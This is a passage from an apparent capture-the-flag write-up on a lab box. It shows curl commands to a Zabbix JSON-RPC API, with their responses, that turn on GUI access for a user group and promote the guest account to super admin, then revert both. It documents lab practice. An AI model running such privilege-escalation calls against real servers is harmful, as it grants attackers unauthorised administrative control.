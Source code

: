 
I can see that frontend access is banned, at `"gui_access": "2"`. I’ll change
that:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "0"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}
    

Now zapper can log into the GUI, and do everything admin could do above. I can
set it back once I’m in:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "2"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}
    

#### Add Admin Rights to Guest

When I log in as guest, I only have a limited menu compared to what I could do
as zabbix or admin:

![1550626552078](https://0xdfimages.gitlab.io/img/1550626552078.png)

If I look at the properties of a [user
object](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/object),
one is type:

![1550626438352](https://0xdfimages.gitlab.io/img/1550626438352.png)

So I’ll use the
[user.update](https://www.zabbix.com/documentation/3.0/manual/api/reference/user/update)
api to change guest to super admin:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "3"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"userids": ["2"]},"id": 1}
    

Now when I click the link to log in as guest, I’ve got the full site:

![1550626509640](https://0xdfimages.gitlab.io/img/1550626509640.png)

And I can set it back when I’m done:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"5e0e2dc84136edbf2a03e1d8c04e95e6", "params":{"userid": "2", "type": "1"}}' | jq -c '.'
    {"jsonrpc":"2.0","result":{"userids":["2"]},"id":1}
    